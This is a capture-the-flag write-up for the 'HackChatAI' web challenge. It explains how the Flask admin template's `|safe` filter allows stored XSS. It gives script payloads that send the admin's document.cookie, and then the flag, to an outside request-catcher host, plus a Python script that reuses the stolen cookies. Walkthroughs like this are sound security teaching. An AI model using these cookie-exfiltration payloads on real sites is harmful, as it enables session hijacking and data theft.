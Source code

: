 # HackChatAI \[388 points\] (6 solves)

> Why rely on humans for conversation when AI can handle it for you?

### Files:
[src.zip](/web/HackChatAI/src)

This challenge gives us a Flask chat app which allows us to communicate with a GPT-4o model and optionally request a human. Requesting a human spins up a Selenium webdriver and visits the `/admin` chat, but nothing is returned from there.

## The Attack Vector

The goal is pretty obvious: steal the admin's cookie, log in to `/admin` and get the flag from the admin chat.

Since this is a Flask app, I was mostly looking for `| safe` operators, since they turn of Flask's autoescaping. Autoescaping is done by default by Flask, and it ensures that anything dynamically loaded via templates into our HTML is treated like plain text, not as HTML. If the challenge turns autoescaping off, we will be able to perform basic XSS attacks to exfiltrate data from the admin. Yet, if we look at our `index.html` file, we can see that there aren't any `| safe` operators:

```html
    <h2>Chat Page</h2>
    <div class="messages" id="messages">
        {% for message, is_response in chat_history %}
            <div>{{ 'Server: ' if is_response else 'You: ' }}{{ message }}</div>
        {% endfor %}
    </div>
```

I was stuck here for most of the challenge. If I'm not able to inject code, how can I steal the flag from the admin?

In this case, my mistake was the assumption that our Selenium instance is visiting the same chat as I was. The Selenium instance actually visits the `/admin` page with an admin cookie, which is what we're trying to steal. 

> [!NOTE]
> The Selenium instance only starts up when you write `I need a human` in the chat

If we look at the admin page:

```html
    <h3>Chat History</h3>
    <div class="chat-history">
        {% for chat in chat_history %}
        <div class="chat-message">
            <div class="chat-date">{{ chat[0]|safe }}</div>
        </div>
        {% endfor %}
    </div>
```

We can see that all of our messages have autoescaping turned off, allowing for us to use XSS to steal the admin account.

When tinkering with different XSS attacks, the biggest deterrent I found was this error:

![console fetch error](/web/HackChatAI/solution/cors_error.png)

I thought this meant that I wasn't able to POST the data, so I started considering exfiltrating data with WebRTC and DNS out-of-bound interactions. But, if you read the error carefully, it's specifying that the *response* is being blocked, not the *request*, which means that our data is being sent, but any response we get will be blocked by CORS. That doesn't matter, because we're not returning anything from the request.


## Execution

Here is my basic XSS attack to exfiltrate the cookie from the admin:

```js
<script>
    fetch("https://hackbox.requestcatcher.com", { 
        method: "POST",
        headers: { "Content-Type": "text/plain" },
        body: document.cookie
    });
</script>
```
<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackbox.requestcatcher.com", { method: "POST", headers: { "Content-Type": "text/plain" }, body: document.cookie });</script>
```

</details>

In this POST request, I used [`requestcatcher`](https://requestcatcher.com/) to see all `POST`ed data, mainly because it's free and unblocked on my school's WiFi. Once I input the XSS into the chat and requested a human, we get `POST`ed data of the admin cookies:

![cookies from admin](/web/HackChatAI/solution/stolen_cookies.png)

So, this was the final script to get the admin page:
```py
import requests

url = "https://ictf24-high-hackchatai.chals.io/admin"
cookies = {
    "admin_cookie": "NBtL78S9MCdb8sOC",
    "play_token": "2ht823oPJa5jPrcy"
}

response = requests.get(url, cookies=cookies)

print(response.text)
```


Resulting in the HTML page of the admin containing the flag:
```
...
<h2>Welcome, Admin!</h2>
<h3>ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}</h3>
...
```

### Alternate solution

However, it's actually easier to ignore the admin cookie altogether and simply steal the flag, since it's loaded on the admin page regardless:

![admin page](/web/HackChatAI/solution/admin_console_selenium.png)

This flag in an H3 element, which we can steal by parsing through all H3s that start with `ictf` (the flag format):

```html
<script>
    fetch("https://hackchatai.requestcatcher.com", {
        method: "POST",
        headers: {
            "Content-Type": "text/plain"
        },
        body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent
    });
</script>
```

<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackchatai.requestcatcher.com", {method: "POST", headers: {"Content-Type": "text/plain"}, body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent.trim() || 'invalid'});</script>
```

</details>

<br>

We get a POST request like this:

![final post req](/web/HackChatAI/solution/request_catcher_post.png)

Giving us the flag.

```
ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}
```

## Conclusion

I really enjoyed this challenge. It reminded me of PicoCTF 2024's hardest web challenge, `elements`, given that both of the challenges allowed the user to execute code in an automated web browser to exfiltrate the flag. This wasn't too hard, and was a nice practice problem in the middle of the competition.
